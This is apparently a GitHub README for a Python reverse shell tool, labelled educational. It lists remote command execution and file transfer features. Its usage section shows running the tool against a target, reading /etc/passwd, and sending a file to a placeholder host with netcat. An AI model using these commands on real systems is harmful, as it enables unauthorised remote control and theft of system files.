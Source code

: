 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Guruh-dev/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
python3 reverse_shell.py
python3 reverse_shell.py -h
python3 reverse_shell.py <TARGET_IP> <TARGET_PORT>
whoami
cd /etc
upload test.txt
cat test.txt | nc -w 3 YOUR_TARGET_IP YOUR_PORT
download /etc/passwd
